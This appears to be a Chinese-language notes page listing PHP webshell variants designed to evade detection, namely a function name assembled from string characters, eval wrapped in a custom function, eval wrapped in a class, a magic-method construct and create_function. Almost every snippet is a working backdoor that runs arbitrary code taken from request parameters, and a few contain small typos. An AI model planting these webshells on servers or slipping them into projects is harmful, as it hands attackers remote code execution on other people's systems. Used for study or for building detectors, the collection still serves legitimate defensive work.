 - `字符串组合`

```php
<?php
$str='abcsqebrt';
$a=$str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```

- `自定义函数`

```php
<php
function admin($a){
	@eval($a);
}
admin($_REQUEST['admin']);
?>
```

- `自定义类`

```php
<?php
class Webshell{
	function admin($a){
		@eval($a);
	}
}
$web= new Webshell();
$web->admin($_REQUEST['admin']);
?>
```

- `魔术方法`-->`__construct()`,`__destruct()`,`__wakeup()`,`__toString()`

```php
// ?name=phpinfo();
<?php
class Student{
	public $xw=null;
	public $xl=null;
	function __construct(){
		$this->xw="riny(\$_REQUEST['anzr'])";
		@assert($this->xl);
	}
}
new Student();
```

- `创建匿名方法`

```php
<?php
$fun1=create_function('$a,$b','return($a+$b);');
echo $func1(10,20);
?>
```
